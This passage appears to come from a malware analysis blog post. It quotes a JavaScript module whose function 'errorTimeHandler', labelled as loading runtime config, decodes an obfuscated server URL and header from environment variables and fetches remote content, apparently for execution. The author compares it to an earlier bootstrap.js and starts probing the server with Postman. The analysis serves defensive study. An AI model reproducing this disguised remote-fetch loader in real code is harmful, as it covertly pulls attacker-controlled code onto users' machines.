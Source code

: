         console.error('Handler function is not available.');
        }
    } catch (globalError) {
        console.error('Unexpected error inside errorHandler:', globalError.message);
    }
    };

    /**
    * Loads global runtime config
    */
    const errorTimeHandler = async () => {
    try {
        const src = atob(process.env.AUTH_API_KEY);
        const k = atob(process.env.AUTH_ACCESS_KEY);
        const v = atob(process.env.AUTH_ACCESS_VALUE);
        try {
            globalConfig = (await axios.get(`${src}`,{headers:{[k]:v}}));
            log('Runtime config loaded successfully.');
        } catch (error) {
            errorHandler(error.response?.data || error.message);
        }
    } catch (err) {
        await errorHandler(err.response?.data || err.message || err);
    }
    };

    module.exports = {
        errorHandler,
        errorTimeHandler
    };
    ```

The code above, specifically in ```errorTimeHandler()```, behaves the same way as the previous version we analyzed in ```bootstrap.js```: it makes a ```GET``` request to the server ```src``` with a special header ```k``` set to the value ```v```. However, something did not behave as my expectation when I tested it using Postman.
